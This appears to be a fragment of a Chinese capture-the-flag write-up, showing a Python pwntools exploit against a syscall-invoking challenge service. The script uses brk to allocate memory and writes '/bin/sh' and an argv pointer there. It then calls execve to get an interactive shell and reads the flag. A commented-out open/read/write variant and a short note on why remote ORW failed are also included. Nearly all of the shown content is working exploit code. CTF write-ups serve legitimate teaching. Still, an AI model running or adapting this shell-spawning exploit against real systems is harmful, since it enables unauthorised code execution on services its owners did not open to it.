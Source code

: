 ```python
    Strike()

    Invoke()
    _syscall(int(constants.SYS_brk), 0, 0, 0)
    ru("answers: ")
    brk = int(rl().strip())
    lg("brk", brk)

    _syscall(int(constants.SYS_brk), brk+0x1000, 0, 0)
    ru("answers: ")
    res = int(rl().strip())
    lg("res", res)

    #_syscall(int(constants.SYS_read), 0, brk, 8)
    #rl()
    #sn(b"/flag\x00\n")

    #_syscall(int(constants.SYS_open), brk, 0, int(constants.PROT_READ))
    #ru("answers: ")
    #fd = int(rl().strip())
    #lg("fd", fd)

    #_syscall(int(constants.SYS_read), fd, brk+0x10, 0x30)
    #ru("answers: ")
    #res = int(rl().strip())
    #lg("res", res)

    #_syscall(int(constants.SYS_write), 1, brk+0x10, res)
    #log.critical(rl().strip())

    _syscall(int(constants.SYS_read), 0, brk, 8)
    rl()
    sn(b"/bin/sh\x00\n")

    # envp
    _syscall(int(constants.SYS_read), 0, brk+0x10, 8)
    rl()
    sn(p64(brk+5)+b'\n')

    # execve("/bin/sh", {"sh", 0}, 0);
    _syscall(int(constants.SYS_execve), brk, brk+0x10, 0)
    sl(b"cat flag")

    p.interactive()
```

# 可能遇到的问题

远程ORW行不通，`open("/flag", 0, PROT_READ);`返回-1。
